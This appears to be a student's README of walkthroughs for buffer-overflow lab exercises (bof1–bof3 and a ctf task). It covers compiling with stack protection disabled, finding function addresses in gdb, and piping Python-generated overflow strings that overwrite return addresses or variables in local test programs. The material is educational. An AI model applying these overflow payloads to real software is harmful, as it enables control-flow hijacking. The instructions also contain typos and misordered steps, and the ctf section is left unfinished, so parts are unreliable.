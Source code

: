 ## @author:Mai Đức Kiên
## @Id:22110046

## Exercise-Security Lab bof1
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
10. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
11. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

## Exercise-Security Lab bof2
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/e77fc665-25ba-44a2-8082-b0075633236f)
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Overflow memory we need to fill 40 characters + 4 characters of variable check address <br>
`$>echo $(python -c "print('a'*40+'\xff\xff\xff\xff')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/548b9b77-c695-48af-9e64-7334b3b7626d)
4. Else print out this statement printf("Yeah! You win!\n") <br>
`$>echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/738be82f-7ceb-487d-9b3b-2a985bde5b0f)


## Exercise-Security Lab bof3
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/085fefae-1b34-4858-8c32-20a934d187a4)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
4. If you want print out this statement printf("Congrat") <br>
`$>echo $(python -c "print('a'*90)") | ./bof3.out` <br>
![image](https://github.com/user-attachments/assets/96b54264-7179-46a4-a9ce-463989c2357c)
5. Run code command. to open visual studio in terminal <br>
6. Run docker container from previously built image <br>
7. Run this command to create file bof1.out<br>
`$>gcc -g bof3.c -o bof3.out`<br>
8. Compile program with options to code execution on stack <br>
`$>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
9. Load bof3.out in gdb <br>
`$> gdb -q bof3.out` <br>
10. Get the shell function address <br>
`$> disas shell` <br>
![image](https://github.com/user-attachments/assets/b52f5476-56e8-4205-8f8a-c3883ccd9be9)
11. If you want print out this statement printf("You made it! The shell() function is executed\n") <br>
`$>echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out` <br>
![image](https://github.com/user-attachments/assets/d61f8663-c9d7-48af-b018-a25c209fa610)


## Exercise-Security Lab ctf
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder

### Visualize the initial attack idea

![image](https://github.com/user-attachments/assets/9c37ba1d-1c92-48e9-9256-af83e1bf88c1)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g ctf.c -o ctf.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q ctf.out` <br>
8. Get the myFunc function address <br>
`$> disas myFunc` <br>
![image](https://github.com/user-attachments/assets/7e128f35-fce5-40b9-a216-8648424b1849)
9. Create file flag1.txt <br>
![image](https://github.com/user-attachments/assets/563fd6da-3ba2-4729-8f73-4bbc74a31a21)









   
